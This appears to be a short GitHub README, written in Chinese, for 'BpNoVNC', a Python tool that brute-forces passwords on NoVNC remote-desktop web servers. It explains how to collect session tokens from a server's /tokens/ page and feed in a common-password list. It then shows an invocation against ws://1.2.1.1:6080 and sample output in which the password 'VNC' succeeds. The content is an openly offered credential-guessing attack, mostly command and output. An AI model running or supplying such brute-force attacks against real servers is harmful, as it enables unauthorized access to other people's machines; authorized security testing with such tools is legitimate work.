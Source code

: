 # BpNoVNC
爆破NoVNC

* token.txt:默认为空,通常在http://1.2.1.1:6080/tokens/ 页面复制到token.txt
* pass.txt:常用密码

```
python3 BpNoVNC.py -t ws://1.2.1.1:6080 -tf token.txt -pf pass.txt

[*]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:123123
[*]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:VNC
[-]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:123123
[+]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:VNC
```
